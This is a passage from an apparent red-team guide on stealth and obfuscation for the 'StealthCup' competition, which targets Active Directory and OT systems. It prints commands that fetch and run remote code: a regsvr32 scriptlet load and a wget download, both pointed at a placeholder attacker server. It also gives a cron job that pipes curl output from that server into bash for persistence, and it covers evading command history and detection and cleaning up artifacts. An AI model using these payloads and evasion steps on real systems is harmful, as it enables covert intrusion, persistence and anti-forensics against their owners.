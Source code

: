     # Use regsvr32 for code execution
    regsvr32.exe /s /u /i:http://<your_server>/payload.sct scrobj.dll
    ```
  
  - **Linux**:
    ```bash
    # Use wget with different user-agent
    wget --user-agent="Mozilla/5.0" http://<your_server>/payload
    
    # Use crontab for persistence
    (crontab -l 2>/dev/null; echo "* * * * * curl -s http://<your_server>/script.sh | bash") | crontab -
    ```

## 6. Obfuscation Tools

While custom obfuscation is preferred, these tools can help (use with caution as they may be detected):

- **PowerShell**:
  - **Invoke-Obfuscation**: PowerShell script obfuscator
  - **ISE-Steroids**: PowerShell obfuscation module
  - **Out-EncryptedScript**: Encrypts PowerShell scripts

- **Bash/Shell**:
  - **bashfuscator**: Bash obfuscation framework
  - **shc**: Shell script compiler (converts scripts to binaries)

## 7. StealthCup-Specific Obfuscation Strategies

- **Blend with Expected Activity**:
  - During AD enumeration, use commands that mimic administrative tasks
  - For OT systems, use commands that look like monitoring or maintenance

- **Minimize Command History**:
  ```bash
  # Bash: Prepend space to command (won't be saved in history)
  [space]your_command
  
  # PowerShell: Disable command history temporarily
  $OriginalPref = $global:HistoryPref
  $global:HistoryPref = "SaveNothing"
  # Run commands
  $global:HistoryPref = $OriginalPref
  ```

- **Use Multi-Stage Approaches**:
  - Stage 1: Use minimal, benign-looking commands to establish initial access
  - Stage 2: Use that access to execute more complex obfuscated commands
  - Stage 3: Clean up artifacts when done
